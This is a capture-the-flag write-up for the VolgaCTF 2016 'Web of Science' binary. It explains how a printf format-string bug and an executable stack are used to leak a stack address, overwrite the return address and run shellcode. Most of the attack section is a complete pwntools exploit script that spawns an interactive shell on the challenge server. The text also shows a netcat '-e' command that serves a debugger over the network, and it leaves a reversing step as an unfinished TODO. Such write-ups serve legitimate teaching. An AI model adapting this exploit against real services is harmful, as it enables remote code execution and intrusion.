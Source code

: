 # Volga : Web of Science

#### Author: yfb76

For this exploitation challenge, we were given a binary and the address of the service to connect to.  Connecting to the service, we first have to solve a series of captchas - in this case ~5 digit addition and subtraction.  Simple enough, I started a simple python script utilizing pwntools.  Connect to the server, grab the challenge, eval it, and respond.  Turns out there was more than one of them.  I opened up the binary in radare2, and quickly saw that we have to pass ten challenges.  Modify our script (final version below), and we are in to the service.  At the same time, I created a copy of the binary and NOP'd out the captcha challenge for local debugging.

Now that we've connected to the service, we see that it is what I call a "menu challenge" where there are several options - to add a paper etc.  Now that we have a feel for what the challenge is, I opened the binary in IDA for more intense reversing.  Working through the levels of menus, we soon find a format string exploit.  If you add a paper, and specify an abstract, and then ask for information about the paper, the abstract gets passed directly to printf().  Thus, we have a printf vulnerability.  Further, checksec reveals that the stack is executable.

TODO: insert the reversed code here

Armed with these facts, our exploit takes two steps.  1) leak a stack address, and use that to calculate the address of an input buffer we control.  2) put our exploit in the buffer, and use the printf vulnerability to return to it.

I developed the exploit locally using gdb.  Looking at the code, we see that all input (paper title, author names, abstract, etc) goes in one large buffer.  I put AAAAA as the paper name to easily identify where it was.  I set the abstract to %p (repeated many times) until I found the relative offset of the buffer from the printf - in this case 16.  I also discovered that the return address for the info function is 0x488 below the address at offset 8, and the buffer is 0x450 below it.  

The next step is to develop the actual exploit string.  In this case, I need to write 6 bytes to the return address.  Here, I will use two different strings.  I will first put the needed addresses into the name field (where we know how to access them), followed by my shellcode.  The format string in the abstract will actually overwrite the return address.  so, the name string will be of the format "[addr of first 2 bytes][address of next 2 bytes][address of last 2 bytes][shellcode]".  The abstract string will be "%[new ra1]c%16$hn%[new ra2 - new ra1]c%17$hn%[new ra3 - (previously written bytes)]c%18$hn".  This leverages printf's offset feature, and only write two bytes at a time (limiting the amount of garbage dumped to the screen).  Note that the new ra needs to be 24 bytes into the name buffer, to account for the 3 addresses that prefix it there.

I'm not so good with printf vulnerabilities, so getting this to work took some time.  My offsets were all correct, but the number of bytes to write with the %n took some time.  The correct thing to do is to take the value you want to write and then subtract the number of previously written bytes.  I was able to use 'nc -l -p 1227 -e "gdb ./mod"' to run the program locally and then connect to it with my python script.  This let me use gdb to examine what my exploit was actually doing, and eventually write the correct return address.

    import time
    import struct
    from pwn import *

    def read_gdb(r):
        string = r.recv()
        while '(gdb)' not in string:
            string = r.recv()
        r.send('r\n')
        r.recvline()

    def read_for_prompt(r):
        string = r.recv()
        tmp = string
        print tmp,
        while '>' not in tmp:
            tmp = r.recv()
            print tmp,
            string = string + tmp
        return string

    context(arch = 'amd64', os = 'linux')

    r = remote('webofscience.2016.volgactf.ru', 45678)
    #r = remote('localhost', 6666)

    #gdb nonsense
    #read_gdb(r)

    #name prompt
    print r.recvline(),
    #send our 'name'
    print 'bob'
    r.send('bob\n')

    #random sentence
    print r.recvline(),

    for x in xrange(0,10):
    #challenge
        chal = r.recvline()
        print chal,
        chal = ' '.join(chal.split(' ')[:-2])

        log.info(text.yellow("Challenge is {}".format(chal)))
        answer = str(eval(chal)) + '\n'
        log.info(text.yellow("Answer: {}".format(answer)))

    #answer prompt
        print r.recv(),
        print answer,
        r.send(answer)

    #Navigate to add paper
    read_for_prompt(r)
    print "1"
    r.send('1\n')
    read_for_prompt(r)

    #Address leak - use the abstract
    print "3"
    r.send('3\n')
    print r.recv(),
    print "%8$p"
    r.send('%8$p\n')
    read_for_prompt(r)
    print "5"
    r.send('5\n')

    ans = read_for_prompt(r).split()
    addr = ''
    for x in ans:
        if x[0] == '0' and x[1] == 'x':
            addr = x
            break
    else:
        print "Couldn't find leaked address"
        exit()
    print "Leaked: " + addr

    #construct exploit string
    ra = int(addr, 16) - 0x488
    ra2 = ra + 2
    ra3 = ra + 4

    #where is our buffer
    buf_addr = int(addr,16) - 0x450
    #skip the initial two address we wrote for the exploit
    buf_addr += 3*8
    print "Buffer at: " + str(hex(buf_addr))

    val1 = buf_addr & 0xFFFF
    val2 = ((buf_addr >> 16) & 0xFFFF) - val1
    val3 = ((buf_addr >> 32) & 0xFFFF) - (val1 + val2)

    exploit_name = "{}{}{}".format(struct.pack("<Q", ra), struct.pack("<Q", ra2), struct.pack("<Q", ra3))
    exploit_name += asm(shellcraft.sh()) + "\n"

    exploit_abstract = "%{}c%16$hn%{}c%17$hn%{}c%18$hn\n".format(val1, val2, val3)
    #exploit_abstract = "%{}c%16$hn%{}c%17$hn\n".format(val1, val2)
    #exploit_abstract = "%{}c%16$hn\n".format(val1)

    #write the exploit name and abstract
    print "1"
    r.send('1\n')
    print r.recv(),
    r.send(exploit_name)
    read_for_prompt(r)
    print "3"
    r.send('3\n')
    print r.recv(),
    r.send(exploit_abstract)
    read_for_prompt(r)

    r.interactive()
